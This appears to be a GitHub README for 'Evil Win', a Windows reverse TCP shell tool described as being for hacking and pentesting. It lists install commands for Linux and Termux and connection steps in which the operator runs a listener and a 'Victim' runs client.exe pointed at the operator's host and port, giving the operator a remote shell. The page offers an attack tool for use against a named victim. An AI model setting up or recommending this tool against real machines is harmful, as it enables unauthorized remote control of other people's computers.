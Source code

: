 # Evil Win
### Windows Reverse TCP Shell for Hacking and Pentesting


<p align="center">
  <img src="https://i.ibb.co/sH4XyfS/tranc.png">
</p>

### Main Window
<p align="center">
  <img src="https://i.ibb.co/87Pp27s/tranc-Kopie.png">
</p>


### Installation:
* Linux:
  * `sudo apt update -y`
  * `sudo apt install python3 python3-pip git -y`
  * `git clone https://github.com/i-am-unbekannt/Tools`
  * `cd Tools/Evil-Win/`
  * `pip3 install -r requirements.txt`
  * `python3 Evil-Win.py`

* Termux:
  * `pkg update -y`
  * `pkg install python3 python3-pip git -y`
  * `git clone https://github.com/i-am-unbekannt/Tools`
  * `cd Tools/Evil-Win/`
  * `pip3 install -r requirements.txt`
  * `python3 Evil-Win.py`

### Set Up A Connection
* Host: `python3 Evil-win.py [HOST] [PORT]`
* Victim: `client.exe [HOST] [PORT]` 
